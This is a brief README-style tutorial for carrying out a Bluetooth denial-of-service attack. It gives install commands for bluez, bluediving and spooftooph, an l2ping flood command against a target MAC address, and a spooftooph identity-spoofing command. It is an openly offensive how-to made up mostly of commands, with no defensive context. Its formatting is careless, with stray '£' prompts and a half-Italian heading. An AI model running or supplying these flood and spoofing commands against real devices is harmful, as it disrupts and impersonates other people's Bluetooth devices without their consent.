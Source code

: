 # Bluetooth Denial-of-Service (DoS) attack

![image](https://github.com/user-attachments/assets/6ab90148-eea2-45bc-8724-23fd989ec4a9)

##   Install the tools
For a DoS attack over Bluetooth, you can use tools like:

l2ping (already included in bluez)

spooftooph (for spoofing and spam)

bluediving (for specific attacks like L2CAP overflow)

## 1.comands 
```shell
$ sudo apt update
£ sudo apt install bluez blueranger
```

## 2. Activate and check the Bluetooth adapter

```shell
$ sudo systemctl start bluetooth
£ sudo hciconfig hci0 up
£ hciconfig hci0
```

## 3.Bluetooth DoS con l2ping (inondazione di ping)

```shell
$ sudo hcitool scan
```
Flood (continuous ping):
```shell
$ sudo l2ping -i hci0 -s 600 -f XX:XX:XX:XX:XX:XX
```

## More advanced attacks (with Bluediving)

```shell
$ sudo apt install bluediving
```

## Spoofing identity (with spooftooph)

```shell
$ sudo apt install spooftooph
```
for example
```shell
$ sudo spooftooph -i hci0 -n "Insert your device" -a XX:XX:XX:XX:XX:XX
```
